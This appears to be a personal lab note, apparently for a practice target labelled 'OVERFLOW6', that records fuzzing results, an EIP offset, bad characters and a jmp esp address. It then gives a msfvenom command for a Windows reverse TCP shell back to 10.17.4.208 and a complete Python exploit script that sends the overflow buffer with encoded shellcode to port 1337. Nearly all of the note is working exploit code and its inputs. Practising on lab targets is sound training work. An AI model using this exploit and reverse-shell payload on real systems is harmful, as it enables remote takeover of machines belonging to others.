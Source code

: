 ## fuzzing

![[Pasted image 20210530145821.png]]

## offset

EIP: 35694234

offset: 1034

![[Pasted image 20210530150100.png]]

## bad chars

ESP: 0185FA30

![[Pasted image 20210530152406.png]]

bad chars: `\x00\x08\x2c\xad`

## jmp point

`!mona jmp -r esp -cpb "\x00\x08\x2c\xad"`

![[Pasted image 20210530152556.png]]

625011AF
little endian: `\xaf\x11\x50\x62`

## exploit

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x08\x2c\xad"`


![[Pasted image 20210530152756.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW6 "
offset = 1034
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xda\xcd\xd9\x74\x24\xf4\xbb\xb3\xe7\x09\x1b\x5a\x29\xc9\xb1"
"\x52\x83\xea\xfc\x31\x5a\x13\x03\xe9\xf4\xeb\xee\xf1\x13\x69"
"\x10\x09\xe4\x0e\x98\xec\xd5\x0e\xfe\x65\x45\xbf\x74\x2b\x6a"
"\x34\xd8\xdf\xf9\x38\xf5\xd0\x4a\xf6\x23\xdf\x4b\xab\x10\x7e"
"\xc8\xb6\x44\xa0\xf1\x78\x99\xa1\x36\x64\x50\xf3\xef\xe2\xc7"
"\xe3\x84\xbf\xdb\x88\xd7\x2e\x5c\x6d\xaf\x51\x4d\x20\xbb\x0b"
"\x4d\xc3\x68\x20\xc4\xdb\x6d\x0d\x9e\x50\x45\xf9\x21\xb0\x97"
"\x02\x8d\xfd\x17\xf1\xcf\x3a\x9f\xea\xa5\x32\xe3\x97\xbd\x81"
"\x99\x43\x4b\x11\x39\x07\xeb\xfd\xbb\xc4\x6a\x76\xb7\xa1\xf9"
"\xd0\xd4\x34\x2d\x6b\xe0\xbd\xd0\xbb\x60\x85\xf6\x1f\x28\x5d"
"\x96\x06\x94\x30\xa7\x58\x77\xec\x0d\x13\x9a\xf9\x3f\x7e\xf3"
"\xce\x0d\x80\x03\x59\x05\xf3\x31\xc6\xbd\x9b\x79\x8f\x1b\x5c"
"\x7d\xba\xdc\xf2\x80\x45\x1d\xdb\x46\x11\x4d\x73\x6e\x1a\x06"
"\x83\x8f\xcf\x89\xd3\x3f\xa0\x69\x83\xff\x10\x02\xc9\x0f\x4e"
"\x32\xf2\xc5\xe7\xd9\x09\x8e\x0d\x0f\x15\x9e\x7a\x2d\x15\x3d"
"\x52\xb8\xf3\x2b\xb4\xec\xac\xc3\x2d\xb5\x26\x75\xb1\x63\x43"
"\xb5\x39\x80\xb4\x78\xca\xed\xa6\xed\x3a\xb8\x94\xb8\x45\x16"
"\xb0\x27\xd7\xfd\x40\x21\xc4\xa9\x17\x66\x3a\xa0\xfd\x9a\x65"
"\x1a\xe3\x66\xf3\x65\xa7\xbc\xc0\x68\x26\x30\x7c\x4f\x38\x8c"
"\x7d\xcb\x6c\x40\x28\x85\xda\x26\x82\x67\xb4\xf0\x79\x2e\x50"
"\x84\xb1\xf1\x26\x89\x9f\x87\xc6\x38\x76\xde\xf9\xf5\x1e\xd6"
"\x82\xeb\xbe\x19\x59\xa8\xdf\xfb\x4b\xc5\x77\xa2\x1e\x64\x1a"
"\x55\xf5\xab\x23\xd6\xff\x53\xd0\xc6\x8a\x56\x9c\x40\x67\x2b"
"\x8d\x24\x87\x98\xae\x6c"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```